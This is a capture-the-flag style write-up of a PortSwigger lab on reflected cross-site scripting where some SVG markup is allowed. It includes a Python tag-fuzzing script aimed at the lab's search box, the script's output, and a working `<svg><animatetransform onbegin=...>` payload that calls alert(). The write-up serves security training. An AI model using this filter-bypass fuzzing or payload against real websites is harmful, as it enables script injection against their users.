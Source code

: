 # Reflected XSS with some SVG markup allowed | Dec 31, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed), you'll learn: Reflected XSS with some SVG markup allowed! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a simple [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert()` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231080001.png)

In here, we can see there is a search box.

Let's try to inject some JavaScript codes:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231080033.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231080042.png)

However, the application blocks us.

**To see which tags are allowed, we can fuzz it via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0a89003e042b9254c06b9f6200a2001a.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger's Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py
[+] Found valid tag: <animatetransform>
[+] Found valid tag: <image>
[+] Found valid tag: <svg>
[+] Found valid tag: <title>
```

**Now, we can go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose which payload work for us.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082247.png)

**Let's try `<svg>` and `<animatetransform>` tag:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082322.png)

**This payload looks good. Let's try it:**
```html
<svg><animatetransform onbegin=alert(document.domain) attributeName=transform>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082346.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082352.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082412.png)

It worked!

# What we've learned:

1. Reflected XSS with some SVG markup allowed